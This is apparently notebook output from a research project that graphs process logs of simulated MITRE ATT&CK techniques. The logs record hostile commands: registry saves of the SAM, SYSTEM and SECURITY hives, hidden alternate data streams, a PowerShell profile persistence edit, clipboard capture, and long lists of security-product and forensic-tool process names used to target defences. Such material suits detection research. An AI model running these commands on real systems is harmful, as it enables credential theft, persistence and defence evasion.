53466 : powershell.exe_-ExecutionPolicy_Bypass_-C_"echo_\"test\"_>_$env:TEMP\T1564.004_has_ads_powershell.txt_|_set-content_-path_test.txt_-stream_adstest.txt_-value_\"test\";_set-content_-path_$env:TEMP\T1564.004_has_ads_powershell.txt_-stream_adstest.txt_-value_\"test2\";_set-content_-path_._-stream_adstest.txt_-value_\"test3\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3320
682194 : C:\Users\ezk\AppData\Local\Temp\T1564.004_has_ads_powershell.txt
783754 : C:\Users\ezk\AppData\Local\Temp\T1564.004_has_ads_powershell.txt:adstest.txt
197104 : C:\Windows\System32:adstest.txt
../graph_others2/T1564.004_76b6066fe170d38215251102e42be973.png has been generated!
T1003.002_7fa4ea18694f2552547b65e23952cabb


<Figure size 432x288 with 0 Axes>



 16%|█▋        | 27/165 [00:46<01:20,  1.72it/s]

Number of relations in the graph: 15
377814 : cmd.exe_/C_reg_save_HKLM\sam_%temp%\sam_&&_reg_save_HKLM\system_%temp%\system_&&_reg_save_HKLM\security_%temp%\security&C:\Windows\system32\cmd.exe&cmd.exe&5012
487646 : reg__save_HKLM\sam_C:\Users\ezk\AppData\Local\Temp\sam_&C:\Windows\system32\reg.exe&reg.exe&9544
308038 : reg__save_HKLM\system_C:\Users\ezk\AppData\Local\Temp\system_&C:\Windows\system32\reg.exe&reg.exe&5460
128703 : reg__save_HKLM\security_C:\Users\ezk\AppData\Local\Temp\security&C:\Windows\system32\reg.exe&reg.exe&6832
166300 : C:\Users\ezk\AppData\Local\Temp\sam
../graph_others2/T1003.002_7fa4ea18694f2552547b65e23952cabb.png has been generated!
T1546.013_f9a968af61d36983448c74cca5464e17


<Figure size 432x288 with 0 Axes>



 17%|█▋        | 28/165 [00:47<01:17,  1.76it/s]

Number of relations in the graph: 15
556366 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Add-Content_$profile_-Value_\"\";_Add-Content_$profile_-Value_\"Start-Process_calc.exe\";_powershell_-Command_exit"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9708
691877 : C:\Windows\System32\WindowsPowerShell\v1.0\Microsoft.PowerShell_profile.ps1
664977 : C:\Users\ezk\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
239841 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_-Command_exit&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&4732
392498 : "C:\Windows\system32\calc.exe"_&C:\Windows\system32\calc.exe&calc.exe&10368
../graph_others2/T1546.013_f9a968af61d36983448c74cca5464e17.png has been generated!
T1490_e90756bb6dcd21462dc4cc452661df91


/workdir/home/euni/anaconda3/lib/python3.9/site-packages/pygraphviz/agraph.py:1407: RuntimeWarning: Warning: using box for unknown shape o

  warnings.warn(b"".join(errors).decode(self.encoding), RuntimeWarning)


<Figure size 432x288 with 0 Axes>



 18%|█▊        | 29/165 [00:48<01:34,  1.43it/s]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 18%|█▊        | 30/165 [00:50<02:06,  1.06it/s]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 19%|█▉        | 31/165 [00:51<02:12,  1.01it/s]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 19%|█▉        | 32/165 [00:52<02:15,  1.02s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 20%|██        | 33/165 [00:53<02:16,  1.03s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 21%|██        | 34/165 [00:54<02:19,  1.06s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____"f-secure_gatekeeper",____"f-secure_hips",____"fsbts",____"fsni",____"fsvista",____"f-secure_filter",____"

<Figure size 432x288 with 0 Axes>



 21%|██        | 35/165 [00:55<02:19,  1.07s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 22%|██▏       | 36/165 [00:56<02:19,  1.08s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 22%|██▏       | 37/165 [00:57<02:19,  1.09s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
712579 : $forensicProcesses_=_@(____"apimonitor-x64",____"apimonitor-x86",____"autopsy64",____"autopsy",____"autoruns64",____"autoruns",____"autorunsc64",____"autorunsc",____"binaryninja",____"blacklight",____"cff_explorer",____"cutter",____"de4dot",____"debugview",____"diskmon",____"dnsd",____"dnspy",____"dotpeek32",____"dotpeek64",____"dumpcap",____"evidence_center",____"exeinfope",____"fakedns",____"fakenet",____"ffdec",____"fiddler",____"fileinsight",____"floss",____"gdb",____"hiew32demo",____"hiew32",____"hollows_hunter",____"idaq64",____"idaq",____"idr",____"ildasm",____"ilspy",____"jd-gui",____"lordpe",____"officemalscanner",____"ollydbg",____"pdfstreamdumper",____"pe-bear",____"pebrowse64",____"peid",____"pe-sieve32",____"pe-sieve64",____"pestudio",____"peview",____"ppee",____"procdump64",____"p

<Figure size 432x288 with 0 Axes>



 23%|██▎       | 38/165 [00:59<02:28,  1.17s/it]

Number of relations in the graph: 14
674822 : C:\Windows\system32\cmd.exe__/S_/D_/c"_dir_"&C:\Windows\system32\cmd.exe&cmd.exe&7376
270774 : C:\Windows\System32\*
502744 : C:\Windows\System32
76865 : powershell.exe_-ExecutionPolicy_Bypass_-C_dir&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3108
78729 : C:\Windows\System32\Get-ChildItem.*
../graph_others2/T1083_52177cc1-b9ab-4411-ac21-2eadc4b5d3b8.png has been generated!
T1083_6e1a53c0-7352-4899-be35-fa7f364d5722


<Figure size 432x288 with 0 Axes>



 24%|██▎       | 39/165 [01:00<02:25,  1.15s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 24%|██▍       | 40/165 [01:01<02:23,  1.15s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 25%|██▍       | 41/165 [01:02<02:21,  1.14s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>



 25%|██▌       | 42/165 [01:03<02:16,  1.11s/it]

Number of relations in the graph: 14
408779 : None&malware.exe&malware.exe&0000
698597 : Get-Clipboard_-raw&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2420
20329 : $securityServices_=_@(____"msmpeng",____"windefend",____"mssense",____"sense",____"microsoft.tri.sensor",____"microsoft.tri.sensor.updater",____"cavp",____"cb",____"carbonblack",____"carbonblackk",____"cbcomms",____"cbstream",____"csfalconservice",____"csfalconcontainer",____"csagent",____"csdevicecontrol",____"csfalconservice",____"xagt",____"xagtnotif",____"fe_avk",____"fekern",____"feelam",____"fewscservice",____"ekrn",____"eguiproxy",____"egui",____"eamonm",____"eelam",____"ehdrv",____"ekrnepfw",____"epfwwfp",____"ekbdflt",____"epfw",____"fsgk32st",____"fswebuid",____"fsgk32",____"fsma32",____"fssm32",____"fnrb32",____"fsaua",____"fsorsp",____"fsav32",____"f-secure_gatekeeper_handler_starter",____"f-secure_network_request_broker",____"f-secure_webui_daemon",____"fsma",____"fsorspclient",____

<Figure size 432x288 with 0 Axes>

